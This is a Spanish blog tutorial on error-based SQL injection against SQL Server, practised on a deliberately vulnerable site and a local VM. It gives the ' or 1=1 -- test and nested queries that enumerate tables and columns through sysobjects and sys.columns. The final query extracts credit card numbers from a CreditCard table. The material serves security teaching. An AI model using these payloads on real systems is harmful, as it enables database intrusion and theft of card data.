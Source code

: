 ```yaml
---
layout: post
title: Ataque SQL Injection por error
category: Hacking
comments: true
description: Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).
tags:
    - injection
    - hacker
    - owasp
---
```


Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).


<figure>
<img alt="que es sql injection" src="/resources/images/que-es-sql-injection/sql-injection.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>


## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Como encontrar encontrar esta vulnerabilidad

En la pagina de hackyourselffirst.troyhunt.com en la pagina de buscar cilindros, y seleccionamos los coches que tienen 8 cilindros, logicamente solo nos saldran los coches con 8 cilindros.

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8
</div>

Para ver si esta pagina es vulnerable a un ataque sql inject, solo haria falta añadir detras esto: ' or 1=1 --

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8' or 1=1 --
</div>

y Tachan!! nos aparecen todos los coches,la pagina es vulnerable al ataque sql injection.


## Y que significa *' or 1=1 --*

Estos caracteres que hemos añadido detras tienen su signficado, os lo voy a explicar.

*'* sin esta comilla, lo que haria la web seria buscar todos los coches con '8 or 1=1--' cilindros, al añadirla hemos cerrado lo que esta buscando la aplicacion. La comilla es necesaria cuando la busqueda original es tipo string, como es V8 si fuera un valor numerico, por ejemplo un 8, no haria falta ya que los valores numericos en la query original van sin comillas.

<div class="env-header">SQL CON STRING</div>
{% highlight sql linenos %}

Select id, nombre from coches where marca = 'ferrari' 

{% endhighlight %}

<div class="env-header">SQL CON VALOR NUMERICO</div>
{% highlight sql linenos %}

Select id, nombre from coches where year = 2012 

{% endhighlight %}

*or 1=1* esta funcion logica lo que nos ayuda es que da igual lo que buscase la aplicacion, si era falso o no, ahora sera siempre verdadero, ya que 1=1 es siempre verdadero.

*---* esto en sql es para escribir comentarios, si despues de nuestra injeccion de sql quedase algo en la query de sql, por ejemplo un order by o algo más en la busqueda, daria igual ya que para el servidor sql seria como un comentario y no le haria caso.


## El ataque SQL Injection por error


Tengo una pagina web vulnerable a sql injection en una maquina virtual de mi ordenador, asi que lo primero que hago es probar que la pagina en question es vulnerable a un sql injection.

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-1.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-2.png"/>
<figcaption>
Esta web si es vulnerable a sql injection. 
</figcaption>
</figure>

Al ser vulnerable a sql injection, explotamos la vulnerabilidad empezando a sacar todos los nombres de las tablas de la base de datos.

<div class="env-header">SQL Enumeradora 1</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 1 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}


Esta sentencia SQL, son tres sentencias sql anidadas, hacen lo siguiente:

*select top 3 id from sysobjects where xtype=char(85) order by id asc*  selectiona los tres primeros ids que sean tipo tabla de la tabla del systema sysobjects y los ordena por id ascendentemente.

*select top 1 id from ( ) sq order by id desc* selecciona el ultimo de la cola

*select name from sysobjects where id=* da el nombre de la tabla de ese id.

Es decir, podemos recorrer toda la lista de tablas de la base de datos cambiando el valor numerico del Top, ya que ira aumentando la cola, y nosotros siempre cogeremos el ultimo de la cola.

En esta query tanto podemos usar la tabla sysobjects o sys.tables.


<div class="env-header">SQL Enumeradora 2 </div>
{% highlight sql linenos %}

(
    select name from sys.tables where object_id=
    (
        select top 1 object_id from
        (
            select top 1 object_id from sys.tables order by object_id asc
        ) sq order by object_id desc
    )
)

{% endhighlight %}



<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-3.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. 
</figcaption>
</figure>

<div class="env-header">Aumentamos el valor del top... y otra tabla</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-4.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. Otra tabla más..
</figcaption>
</figure>


Y ahora que tenemos los nombres de las tablas, ahora a por las columnas. En la base de datos hay una tabla llamada CreditCard, o sea tarjetas de credito, y el campo 3 de la tabla se llama... CardNumber!!

__Error de conversión al convertir el valor nvarchar 'CardNumber' al tipo de datos int.__


<div class="env-header">Aumentamos el id del column_id y sacamos las columnas de la tabla.</div>
{% highlight sql linenos %}

(
    select name from sys.columns where column_id = 1 and  object_id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

Ya tenemos la tabla, el campo de la tabla, ahora los valores... y como hasta ahora, cambiando el valor top de la subconsulta tendremos un registro nuevo


<div class="env-header">Y como hasta ahora, aumentamos el el top de la consulta anidada y tenemos más valores....</div>
{% highlight sql linenos %}

(
    select CardNumber from CreditCard where  CreditCardID=
    (
        select top 1 CreditCardID from
        (
            select top 3 CreditCardID from CreditCard order by CreditCardID asc
        ) sq order by CreditCardID desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" class="img img-responsive" src="/resources/images/injection-error/injection-sql-error-5.png"/>
<figcaption>
Y ahora a sacar todos los numeros de las tarjetas de credito....
</figcaption>
</figure>















